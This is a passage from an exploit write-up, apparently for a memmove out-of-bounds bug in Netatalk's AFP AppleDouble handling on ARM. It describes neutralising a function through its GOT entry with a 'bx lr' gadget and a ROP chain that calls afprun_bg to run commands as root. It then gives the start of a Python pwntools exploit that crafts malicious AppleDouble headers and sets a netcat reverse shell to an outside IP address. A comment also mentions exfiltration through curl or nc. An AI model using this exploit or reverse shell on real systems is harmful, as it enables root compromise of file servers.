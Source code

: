 `step 4`: now we will use `memmove`vulnerability to overwrite `ad_rebuild_adouble_header_osx` got entry, with a `bx lr`gadget, which is equivalent to `ret`on arm architecture. Like this `ad_rebuild_adouble_header_osx` will not be called next time, and will not crash if we use `ADEID_FINDERI` values for the memmove that would point on unmmaped memory in `ad_rebuild_adouble_header_osx` vulnerable memcpy.

`step 5`: now that `ad_rebuild_adouble_header_osx` is neutralized, we will copy our ROP on stack starting at `memmove`function return address. This ROP will called `afprun_bg`function, an internal function to execute a command as root.

here is the final exploit:

```plain
#! /usr/bin/env python3
# -*- coding: utf-8 -*-
#
from pwn import *
context(arch = 'i386', os = 'linux', endian='little')
context.log_level = 'info'

import socket
import struct
import sys
import time
from afputils import *

request_id = 0

# the command that will be executed by the exploit
# in this case a reverse shell, set IP & port correctly to a receiving listener
# or you can use other commands as well, example: simple flag exfiltrace via curl or nc
command_to_execute = b'/bin/busybox nc 5.255.108.192 12490 -e /bin/bash;\x00'

def createAppleDouble(offset):
  header = p32(0x51607)                     #Magic number double
  header += p32(0x20000)                    #Version number
  header += p8(0) * 16                      #Filler
  header += p16(2)                          #Number of entries
  header += p32(9)                          #Entry Id Finder Info
  header += pack(offset,32,'big',True)      # oob offset (pour leak stack & oob write)
  header += p32(30)                         # Set length other than 32 to call 'ad_convert_osx'
  header += p32(2)                          # Type Ressource fork
  header += p32(0x100)                      # #Control the mmap size (ad_convert_osx) with entry offset + entry length
  header += p32(0)                          # length
  ############
  # usefull to find adouble offset
  ###########
  header += b'JUNK' * 8
  header = header.ljust(0x1000, b'\x00')
  return header

def craft_write_AppleDouble(offset, data):
  header = p32(0x51607)                     #Magic number double
  header += p32(0x20000)                    #Version number
  header += p8(0) * 16                      #Filler
  header += p16(2)                          #Number of entries
  header += p32(9)                          #Entry Id Finder Info
  header += pack(offset,32,'big',True)      # oob offset (pour leak stack & oob write)
  header += p32(0)                         # Set length other than 32 to call 'ad_convert_osx'
  header += p32(2)                          # Type Ressource fork
  header += p32(50)                      # #Control the mmap size (ad_convert_osx) with entry offset + entry length
  header += p32(len(data))               # length
  header += data
```
